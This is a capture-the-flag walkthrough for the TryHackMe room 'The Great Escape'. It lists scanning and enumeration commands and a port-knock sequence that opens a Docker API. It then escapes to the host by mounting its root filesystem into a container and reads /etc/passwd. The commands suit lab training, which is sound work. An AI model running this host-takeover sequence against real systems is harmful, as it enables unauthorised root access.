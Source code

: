 # The Great Escape

**Room Link:** [https://tryhackme.com/r/room/thegreatescape](https://tryhackme.com/r/room/thegreatescape)



## Initial Scan <a href="#initial-scan" id="initial-scan"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports <a href="#scan-all-ports" id="scan-all-ports"></a>

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP <a href="#tcp-8080-http" id="tcp-8080-http"></a>

Its returning too much from 200 so we need to filter it out

**Kali**

```
gobuster -e dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt --wildcard
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

Had to add .well-known to the wordlist, wasn't in any of Tryhackme's default wordlists

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/dirb/common.txt  --wildcard  -s"204,301,302,307,401,403"
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

None of this was working, try later.

**Kali**

```
dirb http://$VICTIM/.well-known -X .txt
```

**Kali**

```
curl http://$VICTIM/.well-known/security.txt
```

**Kali**

```
curl http://$VICTIM/api/fl46
```

**Kali**

```
curl http://$VICTIM/robots.txt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (862).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (863).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (864).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (865).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (866).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (868).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (867).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (869).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/grongor/knock.git
cd knock
./knock $VICTIM 42 1337 10420 6969 63000
nmap $VICTIM -p 2375
```

<figure><img src="../../.gitbook/assets/image (870).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
subl /etc/docker/daemon.json
```

**daemon.json**

```
{
  "insecure-registries" : ["10.10.90.88:2375"]
}
```

**Kali**

```
sudo systemctl stop docker
```

Wait 30 seconds

**Kali**

```
sudo systemctl start docker
```

**Kali**

```
docker -H $VICTIM:2375 images
docker -H $VICTIM:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
cat /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (871).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (872).png" alt=""><figcaption></figcaption></figure>

